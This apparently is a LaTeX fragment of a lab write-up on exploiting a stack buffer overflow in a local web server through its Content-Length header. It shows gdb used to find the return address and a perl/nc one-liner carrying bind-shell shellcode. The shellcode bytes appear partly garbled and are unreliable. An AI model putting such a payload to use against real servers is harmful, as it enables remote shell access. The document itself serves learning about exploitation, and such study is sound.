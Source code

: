\documentclass[a4paper,11pt,hidelinks]{article}
\begin{document}
It is additionally possible to exploit the vulnerability via injecting shell code in the Content-Length parameter (the path parameter is also vulnerable, although harder to exploit). In order to obtain the necessary parameters for a successful exploitation, I used \verb=gdb= on the \verb=webserver= executable, placing a breakpoint at line \verb=88= in order to learn the address of the \verb=rip= (return instruction pointer) address and gather information about the required number of NOPs. 

\begin{figure}[h!]
  \centering
  \includegraphics[width=0.9\textwidth]{drawable/info-frame.png}
  \caption{Gathering information with \texttt{gdb}.}
\end{figure}


For the shellcode, I used the Python library \verb=pwntools= to generate a proper \verb=x86_64= Linux shellcode that binds a Dash shell to port \verb=8081=. The obtained script looked like this:

\begin{code}{Code for the exploitation.}
  perl -e 'print "POST \/ HTTP\/1.1\r\nContent-Length: " . ""x500
   . "\x6a\x6a\x5f\x6a\x5e\x0f\xba{}
  \x1e\x6a\x5a
  \x6a\x0f\x6a\xef\x6a\x5e
  \x0f\x6a\x2b\xef{}\x0f\x6a
  \x5e\xff\xce{}\x0b\x6a\xef\x0f\xeb
  \xef\x6a\x2f\x6e\x2f\x2f\x2f
  \x6a
  \x5e\x6a\x3b\x0f" 
  . ""x494 . "\xfb\x5a\xff\x7f" . "\r\n\r\n"'
   | nc -v -v -q 2 localhost 8082
\end{code}

\begin{figure}[h!]
  \centering
  \includegraphics[width=0.5\textwidth]{drawable/buffer-start-nop.png}
  \includegraphics[width=0.5\textwidth]{drawable/buffer-mid-nop.png}
  \includegraphics[width=0.5\textwidth]{drawable/buffer-end-nop.png}
  \caption{Inspecting the shellcode with GDB (start of payload, start of shellcode, end of payload)}
\end{figure}
\end{document}
